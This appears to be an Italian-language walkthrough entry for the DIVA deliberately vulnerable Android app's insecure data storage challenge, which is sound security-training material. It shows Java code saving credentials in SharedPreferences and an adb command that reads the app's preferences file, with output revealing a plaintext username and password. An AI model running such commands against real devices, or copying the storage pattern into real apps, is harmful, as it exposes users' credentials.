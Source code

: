 ## Insecure Data Storage - Part 1

Codice Vulnerabile:

> app/src/main/java/jakhar/aseem/diva/InsecureDataStorage1Activity.java

```
SharedPreferences spref = PreferenceManager.getDefaultSharedPreferences(this);
```

SharedPreferences salva le coppie chiave-valore in un file (privato o condiviso).

Exploit:

`$ adb shell cat /data/data/jakhar.aseem.diva/shared_prefs/jakhar.aseem.diva_preferences.xml`

```
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
	<string name="user">john</string>
	<string name="password">lock</string>
</map>
```
